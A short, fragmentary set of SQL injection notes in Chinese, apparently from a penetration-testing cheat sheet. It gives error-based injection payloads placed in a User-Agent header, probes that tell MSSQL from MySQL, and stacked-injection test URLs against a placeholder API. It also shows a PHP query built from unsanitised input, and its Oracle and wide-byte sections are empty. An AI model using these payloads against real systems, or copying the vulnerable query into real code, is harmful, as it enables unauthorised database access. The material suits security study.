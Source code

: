 ```text
```

__demo sql__
```php
$sql = "insert into login_log (ua,uid) values ('$ua',$uid)"
```

__user-agent__
- `1',updatexml(1,concat(0x7e,(select 123 limit 1)),1)) -- a`
- `1',extractvalue(1,concat(0x7e,(select 123 limit 1)))) -- a`

# 判断数据库类型

### mssql
```
and exists (select * from sysobjects)
and exists (select count(*) from sysobjects)`
```
返回true则为mssql

### mysql

```
select 1,2,3 limit 0,2
```
可正常返回则为mysql

### oracle

# 堆叠注入

用`;`结束语句以执行另一条语句

## 测试注入点
demo: `https://api.xxx.com/news/info?title=xxx`


测试后一条语句能否对请求结果造成影响
```
https://api.xxx.com/news/info?title=xxx';select 1 from abcde -- a
```

```
https://api.xxx.com/news/info?title=xxx';select a from abcde -- a
```



# 宽字节注入
## 介绍
